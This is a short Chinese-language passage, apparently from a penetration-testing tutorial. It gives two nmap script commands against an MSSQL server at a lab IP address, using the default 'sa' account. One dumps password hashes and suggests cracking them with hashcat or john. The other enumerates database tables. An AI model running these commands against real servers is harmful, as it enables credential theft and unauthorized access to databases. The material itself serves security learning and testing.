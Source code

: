 ### mssql 密码 hash 转储

```php
nmap -p1433 --script ms-sql-dump-hashes --script-args mssql.username=sa,mssql.password=admin 192.168.3.130
```

可与使用 hashcat，john 等进行破解。  
![image.png](assets/1706232584-f50e833c3dc02d0b1bf80bc9dd0033e1.png)

### 枚举数据库表

```php
nmap -p1433 --script ms-sql-tables --script-args mssql.username=sa,mssql.password=admin 192.168.3.130
```

![image.png](assets/1706232584-f2093b7c0ec6f8195afb00179e28c1d2.png)
